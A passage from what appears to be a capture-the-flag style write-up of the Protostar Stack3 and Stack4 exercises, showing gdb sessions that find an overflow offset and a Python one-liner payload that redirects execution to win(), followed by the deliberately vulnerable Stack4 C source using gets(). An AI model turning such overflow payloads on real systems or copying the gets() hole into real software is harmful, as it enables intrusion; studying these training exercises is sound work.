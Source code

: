 Let's check the offset size with a different way that we didn't do on stack-1 solution.

Let's create a set of characters.

> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


```x86asm
gdb-peda$ r
Starting program: ./3 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A
calling function pointer, jumping to 0x63413163
```
OK, **jumping to "0x63413163"**, therefore offset is **64**.


```nasm
gdb-peda$ r <<< $(python2 -c 'print "\x90"*64 + "\xd6\x91\x04\x08"')
Starting program: ./3 <<< $(python2 -c 'print "\x90"*64 + "\xd6\x91\x04\x08"')
calling function pointer, jumping to 0x080491d6
code flow successfully changed
```

#### 2.3 Final PoC

```nasm
$ python -c "print 'A' * 64 + '\xd6\x91\x04\x08'" | ./3
calling function pointer, jumping to 0x080491d6
code flow successfully changed
Segmentation fault (core dumped)
```

## Protostar-Stack4 Solution

### 1. Introduction

This is a poc solution for the "Stack4" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.
Note: I switched to ubuntu 14.04 from 20.04 from this chapter...

Source:
[https://web.archive.org/web/20170417130121/https://exploit-exercises.com/protostar/stack4/](https://web.archive.org/web/20170417130121/https://exploit-exercises.com/protostar/stack4/) 
 
**Hints:**
* Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run < input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```